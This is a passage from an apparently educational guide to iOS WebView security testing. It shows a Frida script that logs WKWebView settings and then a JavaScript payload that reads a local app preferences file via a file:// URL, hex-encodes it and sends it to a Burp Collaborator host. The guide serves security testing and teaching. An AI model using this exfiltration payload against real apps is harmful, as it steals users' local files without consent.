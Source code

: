 ```
    console.log('onMatch: ', wk);
    console.log('URL: ', wk.URL().toString());
    console.log('javaScriptEnabled: ', wk.configuration().preferences().javaScriptEnabled());
    console.log('allowFileAccessFromFileURLs: ',
            wk.configuration().preferences().valueForKey_('allowFileAccessFromFileURLs').toString());
    console.log('hasOnlySecureContent: ', wk.hasOnlySecureContent().toString());
    console.log('allowUniversalAccessFromFileURLs: ',
            wk.configuration().valueForKey_('allowUniversalAccessFromFileURLs').toString());
  },
  onComplete: function () {
    console.log('done for WKWebView!');
  }
});
```
```
Lastly, an example of a JavaScript payload aimed at exfiltrating local files demonstrates the potential security risk associated with improperly configured WebViews. This payload encodes file contents into hex format before transmitting them to a server, highlighting the importance of stringent security measures in WebView implementations.

```javascript
String.prototype.hexEncode = function () {
  var hex, i
  var result = ""
  for (i = 0; i < this.length; i++) {
    hex = this.charCodeAt(i).toString(16)
    result += ("000" + hex).slice(-4)
  }
  return result
}

var xhr = new XMLHttpRequest()
xhr.onreadystatechange = function () {
  if (xhr.readyState == XMLHttpRequest.DONE) {
    var xhr2 = new XMLHttpRequest()
    xhr2.open(
      "GET",
      "http://187e2gd0zxunzmb5vlowsz4j1a70vp.burpcollaborator.net/" +
        xhr.responseText.hexEncode(),
      true
    )
    xhr2.send(null)
  }
}
xhr.open(
  "GET",
  "file:///var/mobile/Containers/Data/Application/ED4E0AD8-F7F7-4078-93CC-C350465048A5/Library/Preferences/com.authenticationfailure.WheresMyBrowser.plist",
  true
)
xhr.send(null)
```
```
## Native Methods Exposed Through WebViews

## Understanding WebView Native Interfaces in iOS

From iOS 7 onwards, Apple provided APIs for **communication between JavaScript in a WebView and native** Swift or Objective-C objects. This integration is primarily facilitated through two methods:

- **JSContext**: A JavaScript function is automatically created when a Swift or Objective-C block is linked to an identifier within a `JSContext`. This allows for seamless integration and communication between JavaScript and native code.
```